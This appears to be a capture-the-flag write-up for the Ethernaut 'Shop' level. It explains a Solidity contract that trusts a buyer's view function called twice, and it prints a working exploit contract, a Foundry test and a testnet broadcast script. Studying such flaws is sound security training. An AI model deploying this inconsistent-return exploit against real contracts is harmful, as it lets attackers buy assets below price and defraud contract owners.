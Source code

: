 ## 👾 21. Shop

<br>


### tl; dr

<br>

* in this challenge we explore restrictions of `view` functions through an `interface`, similarly to level `11` for `Elevator`.
  - now, the goal is to find a way to buy items from a `Shop` contract for a lower price when compared to sold items.

<br>

* remember that a `view` function **[cannot modify the state of the contract](https://docs.soliditylang.org/en/v0.8.15/contracts.html#view-functions)**. 
  - for instance, it cannot write to state variables, create other contracts, emit events, send ether with `call()`, use any low-level calls, use `selfdestruct()`, call functions that `pure` or `view`, or use inline assembly with certain opcodes.


<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/2032b1e7-77f6-4481-8037-54031ebcb435">
</p>



<br>

```solidity
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```


<br>

---

### discussion

<br>

* the first part of this contract is the `interface Buyer` that defines as `external view` function, `price()`, representing the amount of `wei` a `Buyer` must pay:
<br>

```solidity
interface Buyer {
  function price() external view returns (uint);
}
```

<br>

* then, in the `Shop` contract, we have two state variables:

<br>

```solidity
uint public price = 100;
bool public isSold;
```

<br>

* and a `public` function `buy()`, where the `price()` is being called twice. 
  - this is our vulnerability, as one should never trust external inputs (*e.g.,* coming from the `interface` implementation):

<br>

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```

<br>

* in other words, `Shop` expects `Buyer` to return the price it is willing to pay to buy the item, believing that the price would not change the second time it called, as it is a `view` function.
<br>

* we will use this as our exploit, querying the value of `isSold()` and returning a different result based on our needs:
  - the first time `price()` is called, it returns `>100` to enter the loop.
  - then, the second time, it can return anything lower.


----

### solution

<br>

* we craft the following exploit at `src/21/ShopExploit.sol`:

<br>

```solidity
contract ShopExploit is Buyer {

    Shop private level;

    function price() external view returns (uint256) {
        return level.isSold() ? 0 : 1337;
    }

    function run(Shop _level) public {
        level = _level;
        level.buy();
    }
}
```


<br>

* check `test/21.Shop.t.sol` for testing this solution::

<br>

```solidity
contract ShopTest is Test {

    Shop public level = new Shop();

    address instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 

    function setUp() public {
        vm.prank(instance);
    }

    function testShopHack() public {

        vm.startPrank(hacker);
        console.log(level.isSold());
        ShopExploit exploit = new ShopExploit();
        exploit.run(level);
        assert(level.isSold());
        vm.stopPrank();
        
    }
}
```

<br>

* running:

<br>

```shell
> forge test --match-contract ShopTest -vvvv    
```



<br>

* then, submit the solution with `script/21/Shop.s.sol`:

<br>

```solidity
contract Exploit is Script {

        Shop level = Shop(instance); 
        address instance = vm.envAddress("INSTANCE_LEVEL21");  
        address hacker = vm.rememberKey(vm.envUint("PRIVATE_KEY"));   
        
        function run() external {

            vm.startBroadcast(hacker);
            ShopExploit exploit = new ShopExploit();
            exploit.run(level);
            vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/21/Shop.s.sol --broadcast -vvvv --rpc-url sepolia
```



<br>

----


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



